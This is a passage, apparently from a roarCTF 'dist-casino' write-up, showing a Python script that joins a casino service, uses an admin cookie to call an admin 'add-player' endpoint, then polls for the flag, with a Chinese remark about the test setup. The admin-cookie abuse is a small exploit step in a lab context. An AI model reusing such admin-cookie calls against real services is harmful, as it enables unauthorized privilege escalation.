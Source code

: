    ```python
   
   s.post(url + ':50001/api/u/join', json={'pwd': pwd})
   r = s.get(url + ':50001/api/service/player-status')
   print(r.text)
   
   requests.post(
       url + ':50001/api/service/manage/add-player',
       json={'uname': u},
       cookies={
           'casino': admin_cookie,
       })
   
   r = s.get(url + ':50001/api/service/player-status')
   print(r.text)
   s.post(url + ':50001/api/u/beg', json={'pwd': pwd})
   time.sleep(duration)
   r = s.post(url + ':50001/api/u/info', json={'pwd': pwd})
   print(r.text)
   ```

   ![](https://github.com/EddieIvan01/roarCTF-dist-casino/blob/master/img/7.png)

   这里由于是测试环境没有设置flag环境变量，题目环境可由脚本直接获取flag
